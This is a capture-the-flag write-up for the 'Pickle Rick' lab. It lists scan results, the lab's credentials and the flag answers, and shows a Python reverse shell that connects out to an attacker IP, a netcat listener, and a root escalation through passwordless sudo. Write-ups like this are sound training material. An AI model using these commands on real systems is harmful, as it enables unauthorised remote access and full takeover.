 # Pickle Rick

* IP=10.10.61.126

## Nmap scan report:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0a:0c:98:e3:b0:cc:bb:31:bb:9b:d1:72:4d:d5:19:9b (RSA)
|   256 f0:0c:16:42:28:8c:e5:20:c0:a1:74:60:23:37:8a:27 (ECDSA)
|_  256 8f:fe:50:7c:08:6c:24:d8:25:af:4d:f5:3b:e0:53:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## GoBuster report:
```
=====================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)

```
### Login Creds at /login.php:
```
Username: R1ckRul3s
robots.txt: Wubbalubbadubdub (password)
```
## Questions/Tasks:

1. What is the first ingredient Rick needs?
```bash
while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt
```
OR
```bash
grep . Sup3rS3cretPickl3Ingred.txt
```
**Ans- mr. meeseek hair**

2. Whats the second ingredient Rick needs?

* Python3 reverse shell on the command panel:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.50.128",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Listen on port 7777:
```bash
nc -lnvp 7777
```
* Elevate the shell:
```
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
!nc
export TERM=xterm
```
* Navigate to /home/rick
* home directory contents:
```bash
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```
```
cat 'second ingredients'
```
**Ans- 1 jerry tear**

3. Whats the final ingredient Rick needs?

* Check sudo permissions(commands that can be run with sudo)
```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-61-126.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-61-126.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
* Since sudo is set to no password, hence we can escalate privileges just by:
```bash
sudo bash
```
* Navigate to /root and find the 3rd.txt

**Ans- fleeb juice**
